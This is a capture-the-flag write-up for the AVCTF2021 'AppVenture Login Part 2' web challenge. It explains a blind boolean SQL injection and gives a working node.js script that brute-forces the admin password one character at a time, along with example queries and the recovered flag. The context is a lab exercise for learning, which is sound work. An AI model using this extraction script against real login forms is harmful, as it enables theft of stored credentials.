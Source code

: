 ```yaml
---
title: "[AVCTF2021] AppVenture Login Part 2"
slug: avctf2021-av-login-p2
author: [zhaoyun]
date: 2021-12-21
tags: [ctf, web, writeup]
---
```


> Ok, you got the flag, but I bet you'll never get my password!

Basing off the description, the flag is probably the password. Even though we logged in as admin in the last challenge, we do not know of the password.

To get the password, we can check the password 1 character at a time to reduce the number of tries. Trying the entire password string at a time require exponential amount of tries and will be unrealistic.

The flag format is `flag{...}` where characters consist of lower case letters, `{}` and `_`. We can quickly code up a little script to find the password. In this writeup we will be using `node.js` for the simplicity and non-pythonic syntax.

```js
const fetch = require("node-fetch");
const FormData = require("form-data");

let chars = "abcdefghijklmnopqrstuvwxyz_{}".split("");
let password = [];

async function verify(i, c) {
  const form = new FormData();
  form.append(
    "username",
    `admin' and SUBSTRING(password, ${i + 1}, 1)='${c}' --`,
  );
  const res = await fetch("http://35.240.143.82:4208/login", {
    method: "POST",
    body: form,
  });
  const text = await res.text();
  return text !== "Login failed";
}

async function step(i) {
  for (let c of chars) {
    if (await verify(i, c)) return c;
  }
  return null;
}

async function brute_force() {
  let i = 0;
  while (true) {
    password[i] = await step(i);
    console.log(password.join(""));
    if (!password[i]) break;
    i++;
  }
  console.log(password.join(""));
}

brute_force();
```

As before we use `admin'` to escape the admin field, and `--` to skip the password check.

However we add our own check in the middle, `SUBSTRING(password, i, 1)` works the same as normal substring would but sql is 1-indexed(kinda weird but yeh)

What would happen would be like this

- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='a' --` fail
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='b' --` fail
- ...
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='f' --` success
- `select id from users where name='admin' and SUBSTRING(password, 2, 1)='a' --` fail
- ...

`verify` will make a request to check if the password has character in variable `c` at position `i`.

`step` will simply try all characters for a position until one hits.

`brute_force()` will step through all positions until a correct character can't be found for the position, which would be most likely the end of the password

### Running the script

```
f
fl
fla
...
flag{oops_looks_like_youre_not_blind
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
```

Flag obtained
